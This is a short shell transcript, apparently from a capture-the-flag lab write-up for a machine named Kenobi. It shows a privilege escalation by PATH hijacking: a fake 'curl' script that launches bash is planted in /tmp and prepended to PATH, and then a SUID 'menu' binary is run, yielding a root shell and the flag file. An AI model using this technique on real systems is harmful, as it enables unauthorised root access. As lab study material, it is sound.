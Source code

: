 ```shell
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo /bin/bash > curl 
kenobi@kenobi:/tmp$ chmod +x curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# cd /root/
root@kenobi:/root# ls
root.txt
root@kenobi:/root# cat root.txt 
177b3cd8562289f37382721c28381f02
root@kenobi:/root# 
```

